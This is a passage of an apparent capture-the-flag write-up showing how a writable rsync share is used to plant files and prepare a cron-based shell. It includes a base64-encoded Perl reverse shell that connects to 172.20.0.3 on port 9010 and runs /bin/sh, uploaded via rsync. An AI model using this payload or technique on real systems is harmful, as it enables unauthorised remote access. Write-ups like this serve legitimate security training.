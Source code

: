     dr-xr-xr-x              0 2018/07/25 09:24:48 sys
    drwxrwxrwt          4,096 2018/07/25 13:00:01 tmp
    drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
    drwxr-xr-x          4,096 2018/07/15 17:42:39 var
    

I can write to the file system:

    
    
    # rsync rsync://backup:873/src/tmp/
    drwxrwxrwt          4,096 2018/07/26 21:27:16 .
    # rsync 0xdf rsync://backup:873/src/tmp/
    # rsync rsync://backup:873/src/tmp/
    drwxrwxrwt          4,096 2018/07/26 21:27:34 .
    -rw-r--r--              0 2018/07/26 21:27:34 0xdf
    

### Shell via Cron

I’ll use the read / write access to verify that cron is enabled, and then
write one to get shell.

There’s already a cron named `clean` in the folder, which is a good sign that
cron is enabled:

    
    
    # rsync rsync://backup:873/src/etc/cron.d/
    drwxr-xr-x          4,096 2018/07/25 21:41:13 .
    -rw-r--r--            102 2015/06/11 10:23:47 .placeholder
    -rw-r--r--             29 2018/05/04 20:57:55 clean
    

I’ll write a cron file. First, a shell script that calls back to www on port
9010:

    
    
    # echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjIwLjAuMyI7JHA9OTAxMDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d > shell.sh 
    # cat shell.sh
    perl -e 'use Socket;$i="172.20.0.3";$p=9010;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    # rsync -a shell.sh rsync://backup:873/src/tmp/
    # rsync rsync://backup:873/src/tmp/
    drwxrwxrwt          4,096 2018/07/25 21:38:36 .
    -rw-r--r--            220 2018/07/25 21:37:39 shell.sh
    